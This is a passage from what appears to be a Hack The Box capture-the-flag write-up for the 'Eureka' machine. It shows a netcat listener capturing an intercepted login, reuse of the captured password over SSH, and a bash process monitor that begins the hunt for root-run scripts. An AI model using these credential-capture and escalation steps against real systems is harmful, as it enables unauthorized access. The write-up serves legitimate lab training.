 We can use `nc` to listen on port 8081 and capture the traffic:

``` bash
nc -lvnp 8081
```
```
username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=T_ZeEBUEDlzQ-k6HIyeR02oreezhM3exMpf_90HYvUNRnJuxfs5vdHA8bDn9yH6_EQql41ofVNWDVkWcVq_Iw3G8jnQ3-qyA
```

We can reuse the found credentials (miranda-wise:IL!veT0Be&BeT0L0ve) to access ssh `eureka.htb`:

```bash
ssh miranda-wise@eureka.htb
whoami
```
```
miranda-wise
```

We find the user flag in home directory:
```bash
cat /home/miranda-wise/user.txt
```
```
user flag value
```

## Root Exploitation

We create a custom made process monitor, to see new processes in the system:
```bash
#!/bin/bash

INTERVAL=1
oldps=/tmp/oldps
newps=/tmp/newps
ps aux > $oldps

while true; do
        ps aux > $newps
        if diff -q $oldps $newps >/dev/null; then
                echo ""
        else
                diff $oldps $newps | grep ">"  | grep -v "ps aux" # solo los procesos nuevos
        fi
        sleep $INTERVAL
        cp $newps $oldps
done;
```
If we run the process monitor, we can see the following new processes being spawned:
```
root      185158  0.0  0.0   2608   596 ?        Ss   16:38   0:00 /bin/sh -c /opt/scripts/log_cleanup.sh
root      185160  0.0  0.0   2608   600 ?        S    16:38   0:00 /bin/sh /opt/scripts/log_cleanup.sh
root      185162  7.0  0.0   7024  3304 ?        S    16:38   0:00 /bin/bash /opt/log_analyse.sh /var/www/web/cloud-gateway/log/application.log
```
